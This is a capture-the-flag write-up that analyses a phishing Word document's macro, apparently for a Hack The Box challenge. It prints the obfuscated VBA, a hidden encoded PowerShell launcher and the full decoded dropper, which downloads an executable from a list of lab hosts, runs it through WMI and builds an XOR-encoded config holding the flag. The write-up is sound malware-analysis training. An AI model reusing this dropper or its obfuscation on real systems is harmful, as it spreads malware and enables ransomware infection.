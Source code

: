 > WearRansom ransomware just got loose in our company.
> The SOC has traced the initial access to a phishing attack, a Word document with macros.
> Take a look at the document and see if you can find anything else about the malware and perhaps a flag.

> Author: **[0xdf][author-profile]**

## The maldoc

The document macros can be extracted with:

```bash
olevba2 --deobf --decode emo.doc
```

This decodes the hex strings but the VBA code is still obfuscated:

```vba
Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1
Private Sub Document_open()
Get4ipjzmjfvp.X8twf_cydt6
End Sub
Function X4al3i4glox(Gav481k8nh28)
X4al3i4glox = Replace(Gav481k8nh28, "][(s)]w", Sxybmdt069cn)
End Function
```

## Interpretation

The most efficient, most tempting, action is to just run the code.
But I'm on my Linux laptop, not powerful enough for a Windows VM.

So let's just try and make sense of the code.

The previous snippet is run at the opening of the document. It replaces the
string "][(s)]w" with the content of `Sxybmdt069cn`.

This last variable is undefined in the context of the root script. It may
actually mean that "][(s)]w" is supposed to be removed.

Looking around for "][(s)]w" with `strings -n8`, we find:

```
][(s)]w][(s)]wP][(s)]wO][(s)]ww][(s)]we][(s)]wr][(s)]ws][(s)]wh][(s)]we][(s)]wL][(s)]wL][(s)]w ][(s)]w-][(s)]ww][(s)]wi][(s)]wn][(s)]wd][(s)]wo][(s)]ww][(s)]ws][(s)]wt][(s)]wy][(s)]wl][(s)]we][(s)]w ][(s)]wh][(s)]wi][(s)]wd][(s)]wd][(s)]we][(s)]wn][(s)]w ][(s)]w-][(s)]wE][(s)]wN][(s)]wC][(s)]wO][(s)]wD][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]w ][(s)]wIPA][(s)]wABY][(s)]wTKA][(s)]wYFz][(s)]wYXA][(s)]wpIy][(s)]wAdA][(s)]wxgD][(s)]wAfD][(s)]wLAr][(s)]wAVe][(s)]wDgG][(s)]wBuY][(s)]wtAH][(s)]wCyA][(s)]wwAY][(s)]wKTA
```

It looks like regular characters separated by our weird string.
Indeed! It translates to `POwersheLL -windowstyle hidden -ENCOD                 IPAABYTK...`, after removing "][(s)]w".

## Running in a sandbox

Running the malware in the online sandbox [any.run](https://any.run) immediately
captures the powershell command found above:

```powershell
POwersheLL -windowstyle hidden -ENCOD IABTAFYAIAAgADAAegBYACAAKABbAFQAeQBQAGUAXQAoACIAewAyAH0AewAwAH0Ae...
```

Still `any.run` shows file activity, but I found no way to open them.

## Decoding

Back to the code then!

The previous snippet is actually base64 encoded and gives:

```powershell
SV  0zX ([TyPe]("{2}{0}{4}{3}{1}"-f 'e','rECtorY','sYst','.IO.dI','M')  ) ;   set  TxySeo  (  [TYpe]("{0}{7}{5}{6}{4}{2}{1}{8}{3}"-F'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG')) ;  $Nbf5tg3=('B9'+'yp'+('90'+'s'));$Vxnlre0=$Cludkjx + [char](64) + $R6r1tuy;$Ky3q0e8=(('Rq'+'dx')+'wo'+'5');  (  Dir  vaRiAble:0Zx).valuE::"CreAT`E`dIREc`T`OrY"($HOME + ((('nDp'+'Jrb')+('e'+'vk4n')+'D'+'p'+('C'+'cwr_2h')+'nD'+'p') -RePlAcE ('n'+'Dp'),[cHaR]92));$FN5ggmsH = (182,187,229,146,231,177,151,149,166);$Pyozgeo=(('J5f'+'y1')+'c'+'c'); (  vaRiABLE TxYSEo  ).ValuE::"SecUrI`TYp`R`OtOc`ol" = (('Tl'+'s1')+'2');$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228);$Huajgb0=(('Jn'+'o')+'5g'+'a1');$Bb28umo = (('Ale'+'7g')+'_8');$Hsce_js=('Kv'+('nb'+'ov_'));$Spk51ue=(('C'+'7xo')+'9g'+'l');$Scusbkj=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.e'+'x')+'e');$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);$hbmskV2T=(('C'+'7xo')+'9g'+'l');$hbmskV2T=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.c'+'o')+'nf');$Q1_y05_=('W'+('4'+'qvy')+'z8');$Odb3hf3=&('n'+'e'+'w-object') Net.WEBclIENt;$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229);$Anbyt1y=('h'+('ttp:'+']['+'(s)]')+(('w]'+'[('))+(('s)'+']w'))+('da'+'-')+'i'+'n'+'du'+('s'+'trial.'+'h'+'t')+'b]'+('[(s)]'+'w'+'js')+((']'+'[('))+(('s'+')]w9IdL'+'P]['+'(s'+')]w'+'@h'))+('t'+'tp:]')+('[(s'+')]')+'w'+(']'+'[(s)]')+('wdap'+'ro'+'fesiona'+'l.h')+'tb'+('][(s'+')'+']')+'w'+('d'+'ata')+('4][(s'+')]wh')+('WgW'+'jT')+('V]'+'[')+('(s)]w@http'+'s:][(s'+')]'+'w'+']')+'['+('(s)'+']wdag'+'ra')+'ni'+'t'+('eg'+'ia')+('re.h'+'t')+'b]'+('['+'(s)')+(']ww'+'p-a'+'dm'+'in][(s)'+']wt')+('V]['+'(s'+')')+(']w@'+'h')+'tt'+'p'+(':'+'][')+('(s)]w]['+'(s'+')]www'+'w'+'.out'+'s'+'p')+('ok'+'e')+'nv'+'i'+('s'+'ions.')+('htb'+']')+'['+('(s)]w'+'wp'+'-in')+('clu'+'d')+('es][(s)'+']waW'+'o'+'M')+(']'+'[('+'s)]w')+('@'+'http:]')+('[(s)'+']w][('+'s)')+(']wmo'+'bs')+('o'+'uk.h')+(('t'+'b][('))+(('s)'+']wwp-'))+'in'+'c'+'l'+('ude'+'s]'+'[')+('(s)]'+'w')+('UY'+'30R]')+('[(s'+')]w'+'@'+'h'+'ttp:][')+('('+'s)]w')+(']['+'(s)')+(']'+'wb')+'i'+('g'+'laugh'+'s')+(('.h'+'t'+'b][(s'))+((')]'))+('ws'+'mallpot'+'ato')+'es'+((']'+'[(s'))+((')]wY]'+'[(s'+')]w'+'@h'+'ttps:][(s)'))+']w'+('][('+'s)]wn'+'g')+('ll'+'o')+('gist'+'i')+('cs.'+'h')+'t'+('b]'+'['+'('+'s)]w')+'ad'+('mi'+'n')+'er'+']'+('[(s'+')]w'+'W3m')+'k'+(('B'+'][(s'))+((')'+']w')))."rep`LAcE"((']'+'['+('(s)]'+'w')),([array]('/'),('xw'+'e'))[0])."sP`lIT"($Ivg3zcu + $Vxnlre0 + $Jzaewdy);$Gcoyvlv=(('Kf'+'_')+('9'+'et1'));foreach ($A8i3ke1 in $Anbyt1y){try{$Odb3hf3."dO`WnLOA`dfILe"($A8i3ke1, $Scusbkj);$Zhcnaux=(('Ek'+'k')+('j'+'47t'));If ((&('Get-I'+'te'+'m') $Scusbkj)."LEn`GTh" -ge 45199) {${A8`I`3KE1}.("{1}{2}{0}" -f'ay','ToCha','rArr').Invoke() | .("{2}{1}{0}{3}" -f'-','ach','ForE','Object') -process { ${FN5`GGm`Sh} += ([byte][char]${_} -bxor 0xdf ) }; $FN5ggmsH += (228); $b0Rje =  [type]("{1}{0}" -F'VerT','Con');   $B0RjE::"tO`BaS`E64S`TRI`Ng"(${fn5`ggm`sh}) | .("{2}{1}{0}" -f 'ile','ut-f','o') ${hB`mSK`V2T}; ([wmiclass](('wi'+'n')+('32_'+'Proc'+'e')+'s'+'s'))."cR`eaTE"($Scusbkj);$Glwki6a=('I'+'m'+('td'+'xv6'));break;$Pfpblh1=('Vs'+('lal'+'c')+'u')}}catch{}}$F47ief2=(('Bn'+'zid')+'rt')
```

Obfuscated, but this is a major step in readability!

## Deobfuscating

So I took it as a powershell learning exercise and cleaned line by line:

```powershell
SV  0zX ([TyPe]("{2}{0}{4}{3}{1}"-f 'e','rECtorY','sYst','.IO.dI','M')  ) ;
Set-Variable 0zX ([Type]("System.IO.Directory"));
```

```powershell
set  TxySeo  (  [TYpe]("{0}{7}{5}{6}{4}{2}{1}{8}{3}"-F'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG')) ;
Set-Variable TxySeo ([Type]("System.Net.ServicePointManager"));
```

Etc.

## Fast and failed

### Decoding str

There are many unused variables, that are constant strings.

```powershell
$Nbf5tg3=('B9'+'yp'+('90'+'s'));
$Nbf5tg3 = 'B9yp90s';
```

They may be here as an evasion / obfuscation tool or actually carry meaning.

I tried decoding as base64, but no luck.

### Replaying HTTP requests

The script tries to download data from these:

```
http://da-industrial.htb/js/9IdLP/
http://daprofesional.htb/data4/hWgWjTV/
https://dagranitegiare.htb/wp-admin/tV/
http://www.outspokenvisions.htb/wp-includes/aWoM/
http://mobsouk.htb/wp-includes/UY30R/
http://biglaughs.htb/smallpotatoes/Y/
https://ngllogistics.htb/adminer/W3mkB/
```

They don't resolve, even on the vpn.

### Running the script

I traced the script execution with `Set-PSDebug -Trace 2`, but only found commands I already knew and understood.

## Suspicious data

There's an array of integers, with byte like values:

```powershell
$FN5ggmsH = (182,187,229,146,231,177,151,149,166);
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228);
$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);
$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229);
```

In retrospective, the following command clearly shows that it was the key:

```powershell
${FN5GGmSh} += ([byte][char]${_} -bxor 0xdf
```

> thanks to the author for passing by! :D

The array is not directly interpretable as characters, but it can be unlocked with a judicious xor:

```python
print(bytes([b ^ 0xdf for b in bytes(a)]))
```

> `id:M8nHJyeR;int:3000;jit:500;flag:HTB{4n0th3R_d4Y_AnoThEr_pH1Sh};url:`

[author-profile]: https://app.hackthebox.com/users/4935
